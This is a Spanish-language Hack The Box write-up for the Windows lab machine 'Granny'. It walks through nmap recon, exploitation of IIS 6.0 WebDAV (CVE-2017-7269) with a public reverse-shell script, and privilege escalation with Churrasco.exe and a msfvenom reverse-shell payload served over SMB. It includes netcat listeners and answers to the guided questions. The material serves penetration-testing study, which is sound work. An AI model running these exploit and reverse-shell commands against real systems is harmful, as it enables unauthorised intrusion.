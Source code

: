 ```yaml
---
title: Writeup granny - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - granny
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina granny en Hack The Box.
keywords:
  - writeup granny
  - hack the box granny
  - resolución máquina granny
  - granny hack the box
  - htb granny
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: 
- 📺 **Resolución en vivo (completa)**: 
- 🧠 **Explicación resumida**: 

---

#easy #windows #nmap #ping #churrascoexe #impacket-smbserver #CVE-2017-7269 #whatweb #wappalyzer #whoami #msfvenom #rwrapncnlvp443 

-------
# Guided Mode

1)¿Cuántos puertos TCP están abiertos en Granny?
	1

2)¿Cómo se llama el script de nmap que identifica los métodos HTTP permitidos en Granny?
	http-webdav-scan

3)¿Qué marco de aplicaciones web basado en DOTNET se está ejecutando en el servidor web de destino?
	ASP.NET

4)¿Qué método HTTP se puede utilizar para subir archivos a Granny?
	PUT

5)¿Cuál es el ID CVE 2017 de una vulnerabilidad que aprovecha esta versión de IIS y WebDAV, lo que da lugar a la ejecución remota de código?
	CVE-2017-7269

6)¿Qué módulo de reconocimiento de Metasploit se puede utilizar para enumerar las posibles rutas de escalada de privilegios en un sistema comprometido?
	local_exploit_suggester

----

# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.15
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.15 -oG allPorts
nmap -sC -sV -p80 10.10.10.15 -oN targetTCP
nmap -sU -Pn -n -vvv --top-ports 200 10.10.10.15 -oN targetUDP
```

![[Granny1.png]]

![[Granny2.png]]

![[Granny3.png]]
*TTL:* Maquina Windows
*Puertos TCP:*
	`80` HTTP
*Puertos UDP:*
	Demasiado ruido, no hay información relevante

-------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.15/
```

![[Granny5.png]]
![[Granny4.png]]
Lo impor tante es microsoft-IIS 6.0

---------
# [[CVE-2017-7269]]

Con [[git clone]] usamos el comando `git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269` para descargar el repositorio, despues con [[cd]] usamos `cd iis6-exploit-2017-CVE-2017-7269` y luego con ``python2.7 iis6\ reverse\ shell 10.10.10.15 80 10.10.16.15 443`` vamos a mandarnos la [[Reverse shell]] mientras estamos en escucha con [[rlwrap nc -lvnp 443]]


![[Granny6.png]]

![[Granny7.png]]
Ya ganamos acceso a la maquina

--------
# Escalada de privilegios con [[Churrasco.exe]]

Usamos [[whoami]] con el comando `whoami /all`

![[Granny10.png]]
Vemos que *SeImpersonatePrivilege* esta activado
Se podria hacer un JuicyPotato pero como es un windows muy viejo vamos a usar la version anterior que es la de [[Churrasco.exe]]
Descargamos el exploit desde este [repositorio](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-012/pr.exe)


### Con [[msfvenom]] vamos a crear el ejecutable *exploit.exe* para enviarnos una [[Reverse shell]]

```shell
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.15 LPORT=500 -f exe -o exploit.exe
```
![[Granny19.png]]



Desde nuestra maquina de atacante, donde tenemos el ejecutable del [[Churrasco.exe]] vamos a levantar un [[impacket-smbserver]] con el comando `impacket-smbserver smbfolder $(pwd) -smb2support`
![[Granny18.png]]

Vamos a crear una carpeta llamada */tmp* en *C:* para poder tener permisos de escritura sin ningun tipo de problemas
Y desde la maquina victima vamos a descargar los archivos con `copy \\10.10.16.15\smbfolder\exploit.exe .` y `copy \\10.10.16.15\smbfolder\churrasco.exe .`
![[Granny15.png]]

Ejecutamos el [[Churrasco.exe]] pasandole el *exploit.exe* que creamos para enviarnos una [[Reverse shell]] con [[msfvenom]]

![[Granny14.png]]
Mientras estamos en escucha con [[rlwrap nc -lvnp 443]] con el comando `rlwrap nc -nlvp 500` para enviarnos una [[Reverse shell]]
![[Granny12.png]]
Ya elevamos nuestro privilegio al maximo y podemos ver las flags

![[Granny16.png]]
![[Granny17.png]]

------
# Creditos

[Writeup jtsec](https://www.jtsec.es/blog-entry/61/road-to-oscp-hack-the-box-write-up-granny)
[Writeup binaryregion](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)
